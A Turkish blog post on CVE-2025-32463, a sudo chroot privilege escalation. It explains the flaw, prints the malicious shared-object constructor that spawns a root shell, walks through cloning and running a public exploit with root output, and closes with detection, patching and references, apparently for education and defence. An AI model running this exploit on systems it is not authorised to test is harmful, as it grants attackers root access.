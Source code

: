 ```yaml
---
title: "CVE: Sudo Chroot CVE-2025-32463"
author: BilalGns
categories: [Hacking - Security]
tags: [cve, cve 2025-32463, privilege escalation, chroot, PoC, linux, sudo, zero-day, exploit]
render_with_liquid: false
layout: post
published: true  
---
```



Bu yazımda, kısa bir süre önce yayınlanan ve sudo'nun chroot (chwoot) fonksiyonunu etkileyen kritik bir yerel yetki yükseltme zafiyeti olan `CVE-2025-32463`'ü inceleyeceğiz. Bu açık, sistemde sudo kuralı tanımlı olmayan sıradan kullanıcıların bile root yetkileri elde etmesine olanak tanımaktadır.

<br>

## **Nasıl Çalışıyor?**

Zafiyet, sudo’nun `-R` veya `--chroot` parametresinin kullanımı sırasında, belirtilen kök dizine (**chroot** dizini) geçilerek komut eşleştirme işleminin bu ortamda yapılmasından kaynaklanmaktadır. Bu süreçte, saldırgan chroot dizinine sahte bir `/etc/nsswitch.conf` yerleştirerek, sudo’nun kötü niyetli bir **shared object** dosyasını (**libnss_*.so**) yüklemesini sağlayabilir.

Bu dosya sayesinde, sistemde root haklarıyla bir shell başlatılabilir.

<br>

### **Etkilenen Versiyonlar**

- Sudo **1.9.14 – 1.9.17**

<blockquote class="prompt-danger"><p>Etkilenmeyen sürümler: <b>Sudo <= 1.8.32</b> (çünkü <b>chroot</b> desteği bu sürümlerde yoktur)
</p></blockquote>

<blockquote class="prompt-info"><p>Versiyon kontorolü için şu komutu kullanabilirsiniz:

   <b>sudo -V | grep "Sudo version"</b>

</p></blockquote>

<br>

### **Zafiyetin Etkisi**

Sudo konfigürasyonunda hiçbir izin tanımlanmamış olsa bile, sistemde yüklü olan savunmasız sudo sürümü ile yerel bir kullanıcı **root** erişimi elde edebilir.

Bu durum, sistemin bütünlüğü, gizliliği ve erişilebilirliği üzerinde ciddi tehditler oluşturur.



<br>

### **Detaylı Teknik Açıklama**

Zafiyetin kökeni, sudo'nun `chroot()` çağrısını sudoers kuralı eşleştirilmeden önce yapmasıdır. Bu sayede:

- **pivot_root()** ve **unpivot_root()** ile sistem geçici olarak **chroot** ortamına alınır,

- Bu ortamda `/etc/nsswitch.conf` içindeki servis girdileri işlenir (örn: **passwd: /woot1337**),

- Bu girdiler, **libnss_woot1337.so.2** gibi saldırgan tarafından hazırlanan **.so** dosyalarının yüklenmesine sebep olur.

Bu shared object dosyası, **constructor** niteliğinde bir `woot()` fonksiyonu içerir:

```c
__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  execl("/bin/bash", "/bin/bash", NULL);
}
```

Bu fonksiyon çalıştığında, shell doğrudan root olarak başlatılır.


<br>

## **Nasıl Sömürülür?**

İlk olarak sömürü repomuzu aşağıdaki gibi sisteme klonluyoruz:

```console
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git           
Cloning into 'CVE-2025-32463_chwoot'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 9 (delta 2), reused 9 (delta 2), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), done.
Resolving deltas: 100% (2/2), done.
```

Daha sonra `CVE-2025-32463_chwoot` dizinine geçiyoruz:

```console
┌──(kali㉿kali)-[~]
└─$ cd CVE-2025-32463_chwoot 
```

Şimdi de son olarak exploiti çalıştırıyoruz:

```console
┌──(kali㉿kali)-[~/CVE-2025-32463_chwoot]
└─$ ./sudo-chwoot.sh 
woot!
┌──(root㉿kali)-[/]
└─# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev),107(bluetooth),115(scanner),126(lpadmin),134(wireshark),136(kaboxer),1000(kali)
```

<br>

## **Tespit**
- Sistem loglarında `CHROOT=` içeren sudo komutlarını kontrol edin.

- `/etc/sudoers` ve `/etc/sudoers.d/` dizinlerinde `CHROOT=` veya `runchroot=` içeren satırları arayın.

- `ldapsearch` gibi araçlarla LDAP üzerinden tanımlanmış sudo kurallarını da gözden geçirin.

- Sistemlerdeki Sudoers konfigürasyon dosyası aşağıdaki komutla kontrol edilmelidir. Eğer Aşağıdaki  komut bir çıktı `üretiyorsa` zafiyet var demektir.

```console
“grep 'ALL.*!root' /etc/sudoers /etc/sudoers.d/*”
“bob myhost = (ALL, !root) /usr/bin/vi”
```

<br>

## **Önlem ve Güncelleme**

- Sudo’yu `1.9.17p1` veya daha yeni bir sürüme güncelleyin.

- Bu güncelleme, sudoers eşleştirme sırasında `chroot()` çağrısını devre dışı bırakır.

- Gelişmiş sistemlerde AppArmor/SELinux gibi kontrol mekanizmalarıyla sudo komutlarını izole edin.


<br>

## Referanslar

- <a href="https://nvd.nist.gov/vuln/detail/CVE-2025-32463" target="_blank" rel="noopener noreferrer">https://nvd.nist.gov/vuln/detail/CVE-2025-32463</a>
- <a href="https://www.sudo.ws/security/advisories/" target="_blank" rel="noopener noreferrer">https://www.sudo.ws/security/advisories/</a>
- <a href="https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot" target="_blank" rel="noopener noreferrer">https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot</a>
- <a href="https://github.com/pr0v3rbs/CVE-2025-32463_chwoot" target="_blank" rel="noopener noreferrer">https://github.com/pr0v3rbs/CVE-2025-32463_chwoot</a>


<br>

<p style="font-weight:900; color: gray; font-size: 50px; text-align:center;">Okuduğunuz için teşekkür ederim. thnx: by BilalGns<p>

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

.post-desc {
  font-family: 'Open Sans', sans-serif !important;
}
</style>
